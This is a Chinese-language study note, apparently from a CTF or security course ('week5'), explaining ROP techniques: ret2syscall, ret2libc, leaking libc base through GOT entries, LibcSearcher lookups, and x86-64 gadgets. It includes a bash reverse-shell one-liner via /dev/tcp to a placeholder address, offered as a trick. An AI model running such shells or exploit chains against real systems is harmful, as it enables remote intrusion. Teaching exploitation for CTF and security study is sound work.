







week5 rop from ret2text to ret2lib
ret2syscall
- 跳.plt entry
- 函数参数直接放到接下来的stack
- 用pop-ret处理用过的参数
ROP call function

ret2libc
- printf,gets,puts等函数所在位置:libc.so.6
- 直接用rop call libc 的system
- 用条件
- libc版本或者fuction的offset已知
- ASLR开启情况
Dynamically Linded Elf 动态链接库相关操作
1 | # 获取libc路径 |
Function Lazy Binding
library在binary执行时才加载，第一次call function时解析函数位置填入.got.plt
推算libc base addr
- 函数在libc的相对位置不变
- 使用readelf得知__libc_start_main和system在libc的相对位置
- 使用任意输入函数print出__libc-start_main的.got内容，推算system在内存的addr
- 用rop构造puts(__libc_start_main@got)
- *要leak的got entry,对应的function必须已经被call过
- 前提：已有或已知远端libc.so.6版本
Libc Data Base
已知两个function的address时可以在libcdb里找对应的版本
✘网站：libcdb.com:the libc data base- ✘网站：libc.nullbyte.cat
- ✔使用LibcSearcher
1
2
3
4
5
6
7
8from LibcSearcher import *
#第二个参数，为已泄露的实际地址,或最后12位(比如：d90)，int类型
obj = LibcSearcher("fgets", 0X7ff39014bd90)
obj.dump("system") #system 偏移
obj.dump("str_bin_sh") #/bin/sh 偏移
obj.dump("__libc_start_main_ret")
Leak libc base
一般leak __libc_start_main的地址，通过LibcSearcher获取system与/bin/sh的地址，再跳转回main触发溢出执行system(‘/bin/sh’)
例子：ret2libc3
exp:
1 | #!/usr/bin/env python |
trick:开启reverse tcp shell(web同时适用)
system(“bash -c ‘bash -i >& /dev/tcp/to.your.ip.addr/31337 0>&1’”)
1 | # system("bash -c 'bash -i >& /dev/tcp/127.0.0.1/31337 0>&1'") |
ROP for x86-64
64-bin ROP
- syscall 要用rax,rdi,rsi,rdx,rcx,r8,r9,syscall
- Function call参数传递适用寄存器而不是栈 rdi,rsi,rdx,rcx,r8,r9
- 需要用pop-ret控制register，再接function address
64-bit register
- rax,rcx,rdx,rbx,rsp,rbp,rsi,rdi
- r8-r15是用前8个加上rex prefix来表示
- *r12-r15是callee saved，所以pop r12 - r15在function return前很常见
- pop r14 = 415e / pop rsi = 5e
- pop r15 = 415f / pop rdi = 5f
ROPgadget
ROPgadget预设的搜索长度对64位来说可能不太够，需要增加–depth
1 | ROPgadget --binary ./binary --depth 100 |
通用gadget
- 64bit rop需要gadget控制参数
- gcc的程序中有一些片段一定会有，可以用来做rop，构造ret2lib不是问题




De-ASLR with ROP
Calculate Runction Address without Information Leakage


Linux 常用保护机制开关方法
1 | # cannary 栈保护 |
exp:
1 | #!/usr/bin/env python |